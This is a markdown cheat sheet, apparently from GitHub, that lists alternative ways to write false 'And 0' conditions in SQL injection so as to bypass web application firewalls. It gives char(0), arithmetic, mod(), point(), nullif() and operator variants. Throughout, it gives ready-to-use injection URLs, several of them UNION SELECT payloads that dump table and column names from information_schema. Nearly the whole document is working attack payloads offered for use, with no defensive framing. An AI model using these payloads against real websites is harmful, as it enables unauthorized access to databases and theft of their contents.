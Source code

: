 # The Alternative WAY of using And 0 in SQL Injection

## The traditional way of using **And 0**  

- And 1=0
- And false
- And 0
- And 50=60 
- Any number that are not the same will equal to (0,false,null)


## The alternative way of using **And 0** for WAF Bypass purpose

### Using char() for 0, null, false values

- And char(0)
- And char(false)
- And char(null)
```
http://website.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

### Any Mathematical/Arithmetic or Logical Problem's that equal to 0

- And 1*0
- And 1-1
- And 0/1
```
http://website.com/index.php?id=1 and 1*0 order by 1--
```

### Using mod()

- And mod(29,9)
```
http://website.com/index.php?id=1 and mod(29,9) Order by 10--
```

### Using point()

- And point(29,9)
```
http://website.com/index.php?id=1 and point(29,9) Order by 10--
```

### Using **nullif(1336,1337)**
If one arguments is different nullif(1336,1337) it return the first argument and it will consider as true.So no need to use this.But sometimes it works. Since both arguments are equal it return as null value or it's considered as false,0,null and it will valid as Bypass Method in SQL.

- And nullif(1337,1337)
```
http://website.com/index.php?id=1 and nullif(1337,1337) Union Select '1 and nullif(1337,1337) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

## Illegal parameter data types

### For operation **MOD**

- % = Modulo 
```
http://website.com/index.php?id=1 % point(29,9) Order by 10--
```

### For operation **&**

- & = Bitwise And 
- && = Logical And
```
http://website.com/index.php?id=1 && point(29,9) Order by 10--
```

### For operation **OR**

- | = Bitwise OR
- || = Logical OR, sometimes use for Concatanation
```
http://website.com/index.php?id=1 ||point(29,9) Order by 11--
```
